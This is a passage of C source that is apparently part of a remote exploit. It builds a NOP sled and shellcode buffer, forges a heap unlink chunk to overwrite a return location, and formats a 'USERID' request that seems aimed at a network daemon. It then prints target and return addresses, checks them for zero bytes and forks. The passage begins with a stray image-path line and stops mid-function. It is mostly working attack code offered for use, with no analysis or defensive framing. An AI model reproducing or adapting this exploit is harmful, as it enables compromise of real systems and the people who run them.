         if (!ret)
            ret = tgt->bufaddr+tgt->offset+24;
        memset(buf, 0x90, sizeof(buf));

        memcpy(&buf[sizeof(buf)-strlen(tgt->code)-4],
            tgt->code, strlen(tgt->code)+1);

        if ( (chunk = unlinkchunk(ret, tgt->retloc, 64/4)) == NULL)
            exit(EXIT_FAILURE);

        i = snprintf(buf, sizeof(buf), "a: USERID: a:   %s", chunk);
        if (buf[i] == '\0') buf[i] = 0x90;

        /* Set free address */
        *((u_int *)&buf[tgt->offset]) = tgt->bufaddr + 68;

        /* Return point */
        memcpy(&buf[(tgt->offset+24)], JMPCODE, sizeof(JMPCODE)-1);
        buf[tgt->offset+4] = '\n';
    }

    printf("    Target: %s\n", tgt->desc);
    printf("    Return: 0x%08x\n", ret);
    printf("    Retloc: 0x%08x\n", tgt->retloc);
    if (tgt->type == FMTSTR) {
        printf("    offset: %u bytes%s\n", tgt->offset,
            tgt->offset==1?"s":"");
        printf("   Padding: %u byte%s\n", tgt->pad,
            tgt->pad==1?"s":"");
        printf("   Written: %u byte%s\n", tgt->written,
            tgt->written==1?"s":"");
    }
    printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n\n");

    if (!(ret & 0xff000000) ||
        !(ret & 0x00ff0000) ||
        !(ret & 0x0000ff00) ||
        !(ret & 0x000000ff)) {

        fprintf(stderr, "** Zero byte(s) in return address\n");
        exit(EXIT_FAILURE);
    }

    if (!(tgt->retloc & 0xff000000) ||
        !(tgt->retloc & 0x00ff0000) ||
        !(tgt->retloc & 0x0000ff00) ||
        !(tgt->retloc & 0x000000ff)) {

        fprintf(stderr, "** Zero byte(s) in retloc\n");
        exit(EXIT_FAILURE);
    }

    signal(SIGUSR1, signal_handler);

    if ( (pid1 = fork()) < 0) {
        perror("** fork()");
        exit(EXIT_FAILURE);
    }
